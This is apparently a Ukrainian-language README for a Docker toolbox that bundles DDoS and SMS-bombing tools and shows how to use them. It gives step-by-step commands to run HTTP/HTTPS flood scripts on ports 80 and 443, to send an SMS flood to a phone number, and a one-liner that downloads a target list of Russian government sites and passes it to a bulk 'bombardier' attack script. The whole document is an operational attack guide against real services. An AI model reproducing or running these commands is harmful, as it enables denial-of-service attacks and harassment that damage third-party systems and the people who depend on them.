 # Вступ

`toolbox` включає:

* https://github.com/Ranginang67/DarkFly-Tool
* https://github.com/HardyTomas/DDos-Attack-OVH-.git
* https://github.com/LimerBoy/Impulse.git

# Користування

(Не обов'язково) будуємо контейнер:

```shell
docker build -t droopy4096/uait-tools -f containers/Dockerfile.toolkit .
```

Заходимо до контейнера:

```shell
docker run --rm -it droopy4096/uait-tools
root@bda7c51682fb:/opt# 
```

тепер використовуємо:

## DarkFly

https://telegra.ph/DDOS-sajta--DarkFly-08-11

консоль DarkFly:

```shell
DarkFly
```

слідуємо `1` потім `16` встановлюємо `hammer` в `/root/hammer.py` далі по вказівках 

## DDos-Attack-OVH-

https://github.com/HardyTomas/DDos-Attack-OVH-

```shell
cd DDos-Attack-OVH-
python3 80port.py
# or
python3 443port.py
```

##  LimerBoy / Impulse 

https://github.com/LimerBoy/Impulse

```shell
cd LimerBoy-Impulse
python3 impulse.py --method SMS --time 20 --threads 15 --target +380123456789
```

# Automated bombardier

декілька `bombardier` за раз:

```shell
tools/bombarder.sh $(curl -s https://raw.githubusercontent.com/UA-IT-Army/aggressor-sites/main/ru/ru_gosuslugi.json | jq -r '. | keys[]')
```